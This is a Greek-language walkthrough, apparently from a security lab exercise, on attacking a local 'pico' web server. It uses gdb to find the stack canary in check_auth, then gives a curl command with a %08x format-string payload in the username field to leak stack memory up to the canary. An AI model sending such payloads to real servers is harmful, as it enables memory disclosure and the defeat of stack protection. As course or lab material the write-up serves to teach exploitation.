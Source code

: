 #### Βήμα 1: Βρίσκουμε το canary μέσω gdb στο local pico build

Στο local pico: Με χρήση gdb βρίσκουμε το canary και προσπαθούμε να φτάσουμε σε

gdb στο ./server

Για να ακολουθεί τα παιδιά ο gdb ενεργοποιούμε child follow fork mode με την εκτέλεση της εντολής: 

`set follow-fork-mode child`


Αφου βάλουμε breakpoint στην check_auth(), παρατηρώντας την assebly της check_auth( βλέπουμε την τριπλέτα εντολών που χαρακτηρίζουν το canary κατα το function call μιας συνάρτησης.

```
mov %gs:0x14,%eax
mov %eax, -0xc(%ebp)
xor %eax,%eax
```


Με βάση τον %ebp βρίσκουμε τη διεύθυνση του canary.

```

(gdb) p $ebp
$2 = (void *) 0xffffd698
(gdb) p $ebp - 12
$3 = (void *) 0xffffd68c
(gdb) x/4bx 0xffffd68c
0xffffd68c:     0x00    0x87    0xe0    0xd8
(gdb) 
```


Άρα το canary είναι το `0x00    0x87    0xe0    0xd8`

> Το γεγονός ότι το canary που βρήκαμε τελειώνει σε 00, αυξάνει τις πιθανότητες να έχουμε βρει το σωστό canary, διότι ένα έγκυρο canary τελειώνει σε 00.


#### Βήμα 2: Προσπαθούμε να φτάσουμε στο canary μέσω της vulnerble printf στο local pico build


Διαβάζοντας το pdf [1] καταλαβαίνουμε ότι εάν βάζουμε %x στην printf() χωρίς να υπάρχουν ανίστοιχα ορίσματα που να αντιστοιχούν στα %x, τότε η printf() θα εκτυπώνει τα περιεχόμενα που υπάρχουν ακριβώς πριν τη διεύθυνση του πρώτου ορίσματος της printf() που ειναι το Address Format String.

Για να πάρουμε τις διευθύνσεις πίσω απο την κλήση της printf, βάζουμε %x μέχρι να φτάσουμε στο canary που βρήκαμε στο προηγούμενο βήμα.
Με τη σωστή σειρά: `d8e08700`

```bash
curl -X POST \
    http://localhost:8000/check_secret.html  \
    -i \
    --user "%08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x :"
```
